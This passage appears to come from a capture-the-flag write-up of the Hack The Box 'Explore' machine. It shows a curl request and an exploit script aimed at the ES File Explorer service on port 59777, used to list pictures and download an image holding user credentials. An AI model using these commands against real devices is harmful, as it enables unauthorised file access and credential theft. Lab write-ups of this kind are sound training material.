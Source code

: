 After searching for interesting files, I found an image with the credentials of the user `kriti` located in the `/storage/emulated/0/DCIM/creds.jpg` folder.
```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"listPics"}' http://explore.htb:59777
```

<a href="/assets/images/htb-machine-explore/htb-machine-explore_003.png"><img src="/assets/images/htb-machine-explore/htb-machine-explore_003.png"></a>

To get `creds.jpg` use this command:
```txt
python exploit_ESFileExplorer.py --get-file /storage/emulated/0/DCIM/creds.jpg --host explore.htb
```

<a href="/assets/images/htb-machine-explore/htb-machine-explore_004.png"><img src="/assets/images/htb-machine-explore/htb-machine-explore_004.png"></a>

<a href="/assets/images/htb-machine-explore/htb-machine-explore_005.png"><img src="/assets/images/htb-machine-explore/htb-machine-explore_005.png"></a>
